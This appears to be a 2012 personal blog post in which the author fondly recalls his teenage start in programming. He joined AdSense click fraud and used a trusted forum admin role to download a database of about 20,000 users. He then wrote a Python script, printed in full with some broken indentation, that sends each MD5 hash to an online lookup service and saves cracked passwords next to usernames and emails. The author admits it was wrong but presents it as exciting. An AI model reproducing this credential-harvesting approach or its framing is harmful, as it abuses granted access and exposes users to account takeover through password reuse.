 ```yaml
---
layout: post
title: A curious guy getting hands dirty
categories: [programming]
published: true
date: 2012-09-17
markdown: markdown
---
```

If I’m curious now, I was even more with 14 or 15 years old. It was the time when I got bored of my cheap C book and started learning Python with online tutorials. I spent so much time on IRC also, mostly in programming channels (although I almost only talked in those dedicated to Age Of Empires). I met some people doing much more funny things that what I was doing. A group of friends created a script to auto-click on adsense banners. The group was private, but I was invited. All of us had a personal blog, so we used the script to click once on each adsense banner every day, so at least we got 8 or 9 clicks a day. Not much, but It helped me buying a better computer (Athlon 3400+, from a P3 866Mhz) by the end of that year (2004 I think).

Ah, they also got access to a private site from Motorola where we could make free mobile calls, but it only lasted a couple of weeks until they noticed. I remember calling a irc-friend to Puerto Rico and talking with his confused mother…

In one of those channels I met a guy running a big website that it’s still running. In it’s first months, the site had more than 20.000 registered users, and don’t ask me why, he thought it would be great that I helped him managing the forums, so he gave me admin privileges. I went directly to the backups panel, looking for the users database. In less than 2 minutes a ~20Mb file was being downloaded with the first real SQL code I had saw.

When I tried to open it with gedit, my computer froze. I got more luck with vim, but I hated those shell-based text editors. The file was full of entries like this (real copy-paste from original):

{% highlight sql %}
INSERT INTO phpbb_users (user_id, user_active, username, user_password,
user_session_time, user_session_page, user_lastvisit, user_regdate,
user_level, user_posts, user_timezone, user_style, user_lang,
user_dateformat, user_new_privmsg, user_unread_privmsg,
user_last_privmsg, user_login_tries, user_last_login_try, user_emailtime,
user_viewemail, user_attachsig, user_allowhtml, user_allowbbcode,
user_allowsmile, user_allowavatar, user_allow_pm, user_allow_viewonline,
user_notify, user_notify_pm, user_popup_pm, user_rank, user_avatar,
user_avatar_type, user_email, user_icq, user_website, user_from, user_sig,
user_sig_bbcode_uid, user_aim, user_yim, user_msnm, user_occ,
user_interests, user_actkey, user_newpasswd) VALUES('4', '1', '[USERNAME]',
'87f6f9d078c3bc5db5578f3b4add9470', '2147483647', '0', '2147483647',
'2147483647', '0', '0', '0.00', '1', 'english', 'D M d, Y g:i a', '0',
'0', '0', '0', '0', NULL, '0', '1', '0', '1', '1', '1', '1', '1', '0',
'1', '1', '0', '', '0', '[USER_MAIL_ADDRESS]@hotmail.com', '', '', '', '', '', '',
'', '', '', '', '', NULL);
{% endhighlight %}

Obviously I have replaced the username and mail address. There were more than 20.000 entries like that in that file. Passwords were encrypted with MD5, but I knew some online tools like gdataonline (now offline) that could help me finding out the original password. This kind of sites have a huge dictionary of words and common passwords with their corresponding hashes. You search the hash, and get the original string back.

The best thing about gdataonline is that it accepted data via GET and gave the output via XML… That was just perfect for what I had in mind. What if I made a Python script to send the password hashes to gdataonline, and store the successful passwords with their usernames and mail addresses? Since many users use the same password for everything, I would have a really dangerous material. And that was exciting.

First, I made a simple script to split the huge file in 100 parts, so each file would have 200 entries. This had to purpouses:

* The idea of reading and parsing a 20Mb file in python on my slow pc didn’t attract me
* I didn't want to send 20.000 request to gdataonline

I could have got all the (username, mail, hash) tuples with a simple SELECT in SQL, and parse the received XML with pyXML. But I didn’t even consider it, I liked it the hard way, the only way I knew. So after some hours of coding, I got this:

{% highlight python %}
#!/usr/bin/env python
 # -*- coding: iso-8859-15 -*-
 import re
 import urllib
 import os

 def getPasswords():
   successful_passwords = 0
   num = 1

   file = r"inputFile001" #Change this for every file
   text = open(file, "r")
   content = text.read()
   text.close()
   user = re.findall("VALUES.*?;", content)

   output_file = r"outputFile001" #Change this for every file
   foo = open(output_file, "w")

   spaces = " "*32
   foo.write("Nickname" + spaces + "Password" + spaces + "Mail" + "\r")
   foo.write('-' * 90 + "\r")

   for i in user:
     nickname = i.split()[2].strip(",").strip("'")
     mail = i.split()[39].strip(",").strip("'")

     f = urllib.urlopen("http://gdataonline.com/qkhash.php?mode=xml&amp;hash=%s" % i.split()[3].strip(",").strip("'"))
     xml = f.read()
     passwords = re.findall(".*?", xml)

     if passwords: # If we get the original
    password = passwords[0].split("").pop().split("")[0]
         successful_passwords +=1

    foo.write(nickname.ljust(40) + password.ljust(40) + mail.ljust(22))
    foo.write("\r")

     os.system("clear")
     print "Total: %i" % len(user)
     print "Analized: %i" % num
     print "Found: %i" % successful_passwords

     num += 1

   foo.close()
   print "%i passwords have been found" % successful_passwords

 if __name__ == '__main__':
   getPasswords()
{% endhighlight %}

Tachan! Probably not the most beautiful, organized, well documented, optimized or fast code you have seen, but you can imagine what I felt when I opened my just created file (obviously I changed data)…

|**Nickname**|**Password**|**Mail**|
|john|mylove_1234|johny_the_cool@hotmail.com|
|mike|kansas70000|the_big_boy@yahoo.com|
|admin|lalalalaImDaAdmin|admin@thissite.com|
|....|....|....|

I got  ~30% of passwords revealed, 60 passwords per file, 6000 passwords in total.

This was the time I realised how funny and useful programming could be. I didn’t have any other intention that doing something to get a real result, no more ordering lists or math problems. It felt good, I knew that what I had done wasn’t right, and probably was illegal, but it gave me the satisfaction I needed to keep learning, with more enthusiasm than ever.